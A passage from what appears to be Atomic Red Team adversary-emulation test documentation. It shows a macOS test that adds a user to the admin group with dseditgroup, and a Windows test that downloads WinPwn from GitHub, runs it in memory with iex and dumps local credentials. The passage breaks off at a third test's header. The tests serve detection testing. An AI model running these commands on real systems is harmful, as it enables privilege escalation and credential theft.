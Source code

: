 ## Atomic Test #5 - Add a new/existing user to the admin group using dseditgroup utility - macOS

After execution the current/new user will be added to the Admin group

**Supported Platforms:** macOS

**auto_generated_guid:** 433842ba-e796-4fd5-a14f-95d3a1970875

#### Attack Commands: Run with `bash`! Elevation Required (e.g. root or admin)

```bash
dseditgroup -o edit -a art-user -t user admin
```

#### Cleanup Commands:

```bash
dseditgroup -o edit -d art-user -t user admin
```

<br/>
<br/>

## Atomic Test #6 - WinPwn - Loot local Credentials - powerhell kittie

Loot local Credentials - powerhell kittie technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 9e9fd066-453d-442f-88c1-ad7911d32912

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
obfuskittiedump -consoleoutput -noninteractive
```

<br/>
<br/>

## Atomic Test #7 - WinPwn - Loot local Credentials - Safetykatz

Loot local Credentials - Safetykatz technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** e9fdb899-a980-4ba4-934b-486ad22e22f4

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)
